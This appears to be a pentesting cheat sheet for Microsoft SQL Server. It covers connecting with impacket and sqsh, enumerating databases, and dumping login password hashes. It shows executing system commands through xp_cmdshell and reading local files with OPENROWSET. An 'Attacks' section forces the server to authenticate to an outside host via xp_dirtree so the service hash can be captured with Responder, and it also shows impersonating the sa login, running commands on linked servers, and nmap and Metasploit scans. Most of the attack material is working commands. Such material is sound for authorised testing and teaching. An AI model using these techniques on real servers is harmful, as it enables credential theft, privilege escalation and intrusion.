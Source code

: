 # MSSQL

## About

<mark style="color:red;">**Microsoft SQL (MSSQL)**</mark>** is Microsoft's SQL-based **<mark style="color:purple;">**relational database**</mark>** management system.** It is popular among database administrators and developers when building applications that run on Microsoft's .NET framework due to its strong native support for .NET. MSSQL have a lot of different targets. Default port is <mark style="color:yellow;">**1433**</mark> and <mark style="color:yellow;">**1434.**</mark> More about MSSQL Hacking you could read here [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server)

## **Authentication Mods**

**MSSQL** have 2 authentication mods: <mark style="color:yellow;">**windows authentication mode (default)**</mark> and <mark style="color:yellow;">**mixed**</mark>. Windows authentication mode is often referred as <mark style="color:yellow;">**integrated**</mark> because of high integration with AD and Windows. With this you could authenticate into database automatically if you have right user or member of right group. **Mixed mode** is supporting both **AD/Windows** authentication and **SQL** one.  <mark style="color:yellow;">**If we are specifying domain, it'll use Windows auth, if we don't specify domain, it'll use SQL auth.**</mark> We should use <mark style="color:green;">**`servername\\accountname`**</mark> for domain specification.&#x20;

## Databases

**MSSQL** has default system databases that can help us understand the structure of all the databases that may be hosted on a target server.

| Database                                         | Description                                                                                                                                                                                            |
| ------------------------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| <mark style="color:green;">**`master`**</mark>   | Tracks all system information for an SQL server instance                                                                                                                                               |
| <mark style="color:green;">**`model`**</mark>    | Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database |
| <mark style="color:green;">**`msdb`**</mark>     | The SQL Server Agent uses this database to schedule jobs & alerts                                                                                                                                      |
| <mark style="color:green;">**`tempdb`**</mark>   | Stores temporary objects                                                                                                                                                                               |
| <mark style="color:green;">**`resource`**</mark> | Read-only database containing system objects included with SQL server                                                                                                                                  |

## MSSQL Useful Commands&#x20;

**HackTricks:** [**\[LINK\]**](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server#common-enumeration)

| Command                                                                                                                                                                                                                                                                                                                                                                                                                  | Description                                                                                  |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------- |
| <mark style="color:green;">**`impacket-mssqlclient carni17@13.13.13.13`**</mark>                                                                                                                                                                                                                                                                                                                                         | Connect to the MSSQL server.                                                                 |
| <p></p><pre class="language-sql"><code class="lang-sql">SELECT name FROM master.dbo.sysdatabases;
</code></pre>                                                                                                                                                                                                                                                                                                          | Show all databases                                                                           |
| <mark style="color:green;">**`use <database>;`**</mark>                                                                                                                                                                                                                                                                                                                                                                  | Select one of the existing databases                                                         |
| <p></p><pre class="language-sql"><code class="lang-sql">SELECT * FROM &#x3C;databaseName>.INFORMATION_SCHEMA.TABLES;
</code></pre>                                                                                                                                                                                                                                                                                       | Show all available tables in the selected database                                           |
| <p></p><pre class="language-sql"><code class="lang-sql"><strong>select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
</strong></code></pre> | List users                                                                                   |
| <mark style="color:green;">**`select * from <table>;`**</mark>                                                                                                                                                                                                                                                                                                                                                           | Show everything in the desired table                                                         |
| <mark style="color:green;">**`xp_cmdshell 'whoami'`**</mark>                                                                                                                                                                                                                                                                                                                                                             | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ System command execution via **MSSQL** |
| <mark style="color:green;">**`SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents`**</mark>                                                                                                                                                                                                                                                                                 | _<mark style="color:orange;">**NOT DEFAULT.**</mark>_ Reading local files                    |

## CMD Interacting

#### Linux

```bash
sqsh -S 13.13.13.13 -U carni17 -P 'superkek' -h
# We need to use GO for command executon and use each line for each part of command which start with verb
```

```bash
sqsh -S 13.13.13.13 -U SUPERSECRETDOMAIN\\carni17 -P 'superkek' -h 
# or we could use . if we don't know domain name
```

```bash
python3 mssqlclient.py Administrator@13.13.13.13
```

#### Windows

```bash
sqlcmd -S 13.13.13.13 -U carni17 -P superkek123
sqlcmd #If you are already in system
# We need to use GO for command executon and use each line for each part of command which start with verb
```

## Attacks

### **Capture MSSQL Service Hash**

```sql
EXEC master..xp_dirtree '\\13.13.13.13\amogus\'
OR
EXEC master..xp_subdirs '\\13.13.13.13\amogus\'
# Then use Responder or impacket-smbclient to make a fake server and intercept hash
```

### **Impersonating other users**

1. **Check what users can be impersonated**

<pre class="language-sql"><code class="lang-sql">SELECT distinct b.name
<strong>FROM sys.server_permissions a
</strong>INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
GO
</code></pre>

2. **Check current role and user**

```sql
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

3. **Impersonating **<mark style="color:green;">**`sa`**</mark>** user**

```sql
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
GO
```

### Check linked server

1. **Identify linked Servers**

```sql
SELECT srvname, isremote FROM sysservers
GO
```

There would be a server list, those with <mark style="color:purple;">**"1"**</mark> is remote, those with <mark style="color:purple;">**"0"**</mark> is linked.

2. **Check rights**

```sql
EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [13.13.13.13\LINKEDSERVER]
GO
```

3. **Execute commands at linked server**

```sql
EXECUTE('') AT [13.13.13.13\LINKEDSERVER]
GO
```

If you have quotes in command, use double singe quotes for it (<mark style="color:purple;">**''example''**</mark>)

## Tips2Hack

1. **Nmap MSSQL** Script Scan

```bash
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 13.13.13.13
```

2. **Metasploit** scan. We can user <mark style="color:green;">**`mssql_ping`**</mark> to get more useful info about **MSSQL** server.

```bash
msf6 auxiliary(scanner/mssql/mssql_ping) > set rhosts 13.13.13.13

rhosts => 13.13.13.13

msf6 auxiliary(scanner/mssql/mssql_ping) > run

[*] 13.13.13.13:       - SQL Server information for 13.13.13.13:
[+] 13.13.13.13:       -    ServerName      = SQL-01
[+] 13.13.13.13:       -    InstanceName    = MSSQLSERVER
[+] 13.13.13.13:       -    IsClustered     = No
[+] 13.13.13.13:       -    Version         = 15.0.2000.5
[+] 13.13.13.13:       -    tcp             = 1433
[+] 13.13.13.13:       -    np              = \\SQL-01\pipe\sql\query
[*] 13.13.13.13:       - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

